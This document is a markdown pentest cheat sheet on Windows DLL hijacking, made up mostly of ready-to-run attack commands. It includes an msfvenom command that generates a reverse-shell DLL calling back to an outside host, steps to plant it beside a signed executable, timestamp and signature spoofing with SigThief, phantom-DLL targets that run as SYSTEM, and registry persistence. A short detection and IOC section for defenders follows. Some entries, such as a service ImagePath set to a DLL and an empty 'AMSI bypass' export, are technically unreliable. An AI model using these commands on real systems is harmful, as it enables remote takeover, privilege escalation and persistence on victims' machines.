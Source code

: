 # DLL Hijacking Pentest Cheat Sheet
## Core Techniques
### 1. Search Order Hijacking
**Mechanism**:  
`Windows checks directories in order → plant DLL in higher-priority path`

**Attack Paths**:  
```powershell
# Common vulnerable directories (priority order):
1. Application folder (C:\Vendor\App\)
2. Python install dir (C:\Python311\)
3. System32 (Admin required)
4. Current working directory
5. PATH entries (check with 'echo %PATH%')
```
### 2. DLL Side-Loading
**Requirements**:  
- Legitimate signed EXE  
- Writable application directory  

**Attack Pattern**:  
```bash
# Generate malicious DLL (example: Beacon)
msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.0.0.1 LPORT=443 -f dll > legit.dll

# Deploy:
cp legit.dll "C:\Program Files\Vendor\app.dll"
start VendorApp.exe  # Triggers malicious DLL
```
### 3. Phantom DLL Loading
**Prime Targets**:  
```markdown
| Service           | Missing DLL      | Privilege   |
|-------------------|------------------|-------------|
| WSearch (Windows) | msfte.dll        | SYSTEM      |
| MSDTC            | oci.dll          | SYSTEM      |
| IIS Admin        | wbhst_pm.dll     | NETWORK     |
```
## Modern Evasion Tactics
### Stealth Deployment
```powershell
# Timestamp matching (using sysinternals):
Set-ItemProperty -Path malicious.dll -Name LastWriteTime -Value (Get-Item legit.exe).LastWriteTime

# Cert spoofing (SigThief):
python sigthief.py -i "C:\Windows\System32\valid.dll" -t malicious.dll -o signed.dll
```
### Living-off-the-Land Paths
```markdown
1. Adobe Updaters:  
   `C:\Program Files (x86)\Common Files\Adobe\ARM\`  
2. VPN Clients:  
   `C:\Program Files\Cisco\AnyConnect\`  
3. Dev Tools:  
   `C:\Program Files\Microsoft Visual Studio\2022\`  
```

## Post-Exploitation
### Persistence Methods
**Service DLL Hijack**:  
```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\VulnService]
"ImagePath"="C:\\Windows\\System32\\malicious.dll"
```

**Run Key + DLL Search**:  
```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Update /t REG_SZ /d "C:\LegitApp\updater.exe"
# updater.exe searches for missing.dll → plant in app dir
```
## Evasion
### Process Argument Obfuscation
```powershell
# Launch with clean arguments:
Start-Process "C:\Program Files\Vendor\app.exe" -ArgumentList "-update -silent"
```
### AMSI Bypass via Exports
```cpp
// DLLMain.cpp - Add benign exports:
extern "C" __declspec(dllexport) void ValidFunction() {
    // Real payload execution
}
```
## Tools & Commands
**Discovery**:  
```bash
# Find missing DLLs:
procmon.exe /noconnect /BackingFile log.pml /Filters "Result=NAME NOT FOUND,Path ends with .dll"

# Check writable PATH dirs:
accesschk.exe -wuv Users "C:\Python*"
```

**Exploitation**:  
```markdown
1. **Metasploit**:  
   `use exploit/windows/local/dll_hijack`  
2. **Cobalt Strike**:  
   `generate-payload --dll --x64`  
3. **Manual**:  
   - Compile template DLL with export functions matching target
```
[2](https://freedium.cfd/https://medium.com/@s12deff/dll-injector-malware-development-c-tool-d42a50d0e156)
## Detection Signs (For Blue Teams)
```markdown
| Indicator                      | Log Source           |
|--------------------------------|---------------------|
| EXE loading DLL from Temp dir  | Sysmon ID 7         |
| Modified PATH env variable     | Windows Event 4688  |
| Service loading unsigned DLL   | AMSI Event 5007     |
```
## Case Study: PlugX USB Attack
```tree
USB/
├── [LNK] Removable Drive.lnk → 3.exe
└── History/
    ├── 3.exe            # Legit EXE
    ├── Acrobat.dll      # Malicious payload
    └── AcrobatDC.dat    # Encrypted C2 config
```
## IOC Patterns
```markdown
- **File Hashes**: Look for zero VT hits on DLLs loaded by signed EXEs  
- **Process Trees**:  
  `Consent.exe → cmd.exe`  
  `Brcc32.exe → powershell.exe`  
- **Network**: TLS to non-CDN IPs from vendor processes
```
# Resources
1. https://unit42.paloaltonetworks.com/dll-hijacking-techniques/
2. https://freedium.cfd/https://medium.com/@s12deff/dll-injector-malware-development-c-tool-d42a50d0e156